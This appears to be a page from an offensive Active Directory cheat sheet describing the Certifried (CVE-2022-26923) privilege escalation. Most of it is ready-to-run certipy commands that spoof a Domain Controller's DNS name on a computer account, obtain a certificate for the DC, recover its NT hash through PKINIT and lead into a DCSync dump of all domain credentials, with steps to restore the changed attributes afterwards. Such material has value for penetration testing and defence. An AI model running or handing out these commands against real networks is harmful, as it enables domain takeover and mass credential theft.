

**Certifried (CVE-2022-26923)** — you rename a computer account you control so its DNS name (the `dNSHostName` attribute) matches a Domain Controller's, then trick AD CS — Active Directory's certificate authority — into issuing you a certificate that identifies you as that DC. Because AD CS builds the certificate from the DNS name and not from the account name, the certificate ends up valid for the DC itself. Mechanically: you use PKINIT (Kerberos logon with a certificate instead of a password) to authenticate as the DC, recover the DC's NT hash, then DCSync to dump every credential in the domain.



## Discovery

Prerequisites: AD CS configured and operational, and a computer account (create one, or reuse a compromised machine's).

## Exploitation

### 1. Create a computer account with a DC's FQDN as its DNS name

```bash

certipy account create -u 'USER_NAME@DOMAIN' -p 'USER_PASS' -user 'COMPUTER_NAME' -dns 'DC_FQDN'

```

See [Computer Account Creation](../Reconnaissance/Computer%20Account%20Creation%20%28MAQ%29.md) to check whether you can create one.

### 1.bis Or modify an existing computer account

If MAQ is 0, reuse a compromised machine's account. First read its SPNs:

```bash

certipy account read -u 'COMPUTER_NAME$@DOMAIN' -hashes 'COMPUTER_NT_HASH' -user 'COMPUTER$' -dc-ip 'DC_IP'
# servicePrincipalName : RestrictedKrbHost/COMPUTER.domain.local, HOST/COMPUTER.domain.local, ...

```

Save them (to restore later), then set SPNs **without** FQDNs (required, or the `dNSHostName` update fails), then set the DNS name:

```bash

certipy account update -u 'COMPUTER_NAME$@DOMAIN' -hashes 'COMPUTER_NT_HASH' -user 'COMPUTER$' -dc-ip 'DC_IP' -spns 'RestrictedKrbHost/COMPUTER_NAME,HOST/COMPUTER_NAME'
certipy account update -u 'COMPUTER_NAME$@DOMAIN' -hashes 'COMPUTER_NT_HASH' -user 'COMPUTER_NAME$' -dc-ip 'DC_IP' -dns 'DC_FQDN'

```

### 2. Request a certificate

```bash

certipy req -u 'COMPUTER_NAME$@DOMAIN' -hashes 'COMPUTER_NT_HASH' -ca 'CA_NAME' -template 'Machine' -dc-ip 'DC_IP'

```

**Note:** `Machine` is the default computer-auth template; it may be disabled or replaced (see [ADCS Configuration Issues](../ADCS%20Attacks/ADCS%20Configuration%20Issues%20%28ESC1-8%29.md)).

### 3. Get the DC's NT hash

```bash

certipy auth -pfx 'DC_PFX_FILE' -dc-ip 'DC_IP'

```

### 4. DCSync

See [Dump NTDS.dit](../Credential%20Dumping/Dump%20NTDS.dit.md).

### 5. Cleanup

If you reused a compromised computer account, restore its `dNSHostName` and SPNs:

```bash

certipy account update -u 'COMPUTER_NAME$@DOMAIN' -hashes ':COMPUTER_NT_HASH' -user 'COMPUTER$' -dc-ip 'DC_IP' -dns 'COMPUTER_FQDN'
certipy account update -u 'COMPUTER_NAME$@DOMAIN' -hashes ':COMPUTER_NT_HASH' -user 'COMPUTER$' -dc-ip 'DC_IP' -spns 'RestrictedKrbHost/COMPUTER_FQDN,RestrictedKrbHost/COMPUTER_NAME,HOST/COMPUTER_FQDN,HOST/COMPUTER_NAME'

```

Otherwise delete the created computer account - see [Computer Account Creation](../Reconnaissance/Computer%20Account%20Creation%20%28MAQ%29.md).

## References

- Certipy - https://github.com/ly4k/Certipy
- MSRC - CVE-2022-26923 - https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923
- Certifried write-up - https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4
